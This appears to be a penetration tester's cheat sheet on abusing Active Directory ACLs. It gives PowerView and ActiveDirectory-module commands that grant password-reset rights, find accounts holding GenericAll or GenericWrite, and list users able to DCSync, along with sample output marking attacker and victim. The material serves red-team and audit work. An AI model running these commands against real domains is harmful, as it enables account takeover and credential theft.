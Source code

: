 
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose


## Hunt for ACLs



### ActiveDirectory

Enumerate ACLs which `snovvcrash` user possesses against `j.doe` user:

```
PS > (Get-ACL "AD:$((Get-ADUser j.doe).distinguishedName)").access | ? {$_.IdentityReference -eq "MEGACORP\snovvcrash"}
```

Enumerate which users possess `GenericAll` or `AllExtendedRights` permission against `j.doe` user:

```
PS > (Get-ACL "AD:$((Get-ADUser j.doe).distinguishedName)").access | ? {$_.ActiveDirectoryRights -match "GenericAll" -or $_.ActiveDirectoryRights -match "AllExtendedRights"} | select IdentityReference,ActiveDirectoryRights -Unique | ft -W
```

PowerView analog:

```
PowerView3 > Get-DomainObjectAcl -Identity j.doe -Domain megacorp.local -ResolveGUIDs | ? {$_.ActiveDirectoryRights -match "GenericAll" -or $_.ActiveDirectoryRights -match "AllExtendedRights"} | select SecurityIdentifier | sort -Property SecurityIdentifier -Unique
PowerView3 > ConvertFrom-SID <SECURITY_IDENTIFIER>
```

Find all users who can DCSync and convert their SIDs to names:

```
PowerView3 > $dcsync = Get-ObjectACL "DC=megacorp,DC=local" -ResolveGUIDs | ? {$_.ActiveDirectoryRights -match "GenericAll" -or $_.ObjectAceType -match "Replication-Get"} | select -ExpandProperty SecurityIdentifier | select -ExpandProperty value
PowerView3 > Convert-SidToName $dcsync
```



### PowerView2

Search for interesting ACLs:

```
PowerView2 > Invoke-ACLScanner -ResolveGUIDs
```

Check if the attacker "MEGACORP\sbauer" has `GenericWrite` permissions on the "jorden" user object:

```
PowerView2 > Get-ObjectAcl -samAccountName jorden -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericWrite" -and $_.IdentityReference -eq "MEGACORP\sbauer"}

InheritedObjectType   : All
ObjectDN              : CN=Jorden Mclean,OU=Athens,OU=Employees,DC=MEGACORP,DC=LOCAL  <== Victim (jorden)
ObjectType            : All
IdentityReference     : MEGACORP\sbauer  <== Attacker (sbauer)
IsInherited           : False
ActiveDirectoryRights : GenericWrite
PropagationFlags      : None
ObjectFlags           : None
InheritanceFlags      : ContainerInherit
InheritanceType       : All
AccessControlType     : Allow
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-3110
```